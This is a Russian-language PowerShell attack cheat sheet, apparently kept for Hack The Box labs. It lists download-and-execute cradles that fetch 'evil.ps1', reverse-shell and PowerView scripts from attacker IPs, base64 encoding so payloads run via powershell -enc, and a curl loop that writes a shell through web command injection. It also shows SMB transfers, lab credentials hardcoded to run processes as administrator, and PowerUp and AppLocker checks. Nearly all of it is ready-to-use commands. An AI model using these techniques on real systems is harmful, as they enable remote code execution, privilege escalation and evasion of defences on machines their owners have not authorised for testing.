 # POWER

https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/

Запустить повер виев

. .\PowerView.ps1

загрузиь повервью в память

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/PowerView.ps1')

    iex(iwr -usebasicparsing http://192.168.50.123/Powerview.ps1)

"powershell "IEX(New-Object Net.WebClient).downloadString(''http://10.10.14.9/shell.ps1'')""   ---Бывает и так!!!!!

Поскольку у нас нет оболочки для JDgodd, мы можем использовать PowerShell.
 System.Management.Automation.PSCredential для хранения учетных данных в нашей текущей оболочке.

 $SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd',
$SecPassword)

# Кодирование скриптов POwerShell
--Кодирование в base64

  $Shell=Get-Content -raw ./Invoke-PowerShellIcmp.ps1
  
  $bytes2 = [System.Text.Encoding]::Unicode.GetBytes($Shell)

  $Encoded2 | out-file icmp.ps1.b64

--Декодирование обратно

  $Decode =[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($Encoded2))
  
# Загрузка скрипат построчно

!/bin/bash
export IFS=$'\n'
for line in $(cat tmp.ps1.b64);
do
max="echo ${line} >> C:\Temp\max_shell.ps1"
curl -v -G -X GET 'http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx' --data-urlencode "xcmd=$max"
done


-------------------------------------
cat rev.ps1 |iconv -t UTF-16LE | base64 -w 0 (вывод)

powershell -enc (вывод)

# Восстаовление корзины

Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter {ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *

# Загрузка скрипта и выполнение

    IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/evil.ps1')

    echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6:8000/winPEAS.ps1') | powershell -noprofile 

    iwr -uri http://10.10.14.9/test -outfile test

    IEX(IWR('10.10.10.10/script.ps1'))

    iex(iwr -usebasicparsing http://192.168.50.123/Powerview.ps1)

    -----------

echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6:8000/winPEAS.ps1')" | iconv -t UTF-16LE| base64 -w0


powershell -encodedcommand ACkACgA=

    
# Доступ к ресурсу SMB

impacket-smbserver share .


Get-Content //10.10.14.4/file

net use z: //10.10.10.14/shares 
-----
$pass = "max" | ConvertTo-SecureString -AsPlainText -Force

$cred = New-Object System.Management.Automation.PsCredential('max, $pass')

New-PSDrive -name max -root \\10.10.14.14\share -Credential $cred -PSProvider "filesystem"

# PowerShellMafia

https://github.com/PowerShellMafia/PowerSploit.git

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/evil.ps1')

PowerUP

Invoke-AllChecks

# Запуск процесса от имени другого пользователя (администратора)

$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force

$creds = New-Object System.Management.Automation.PSCredential('administrator', $passwd)

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://<LAB IP>/writeup')" -Credential $creds



$user='HTB\Tom'

$pass="01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692" | convertto-securestring

$credd = New-Object System.Management.Automation.PSCredential($user, $pass)

fl

# Проверка Applocker

Get-AppLockerPolicy -effective -xml 



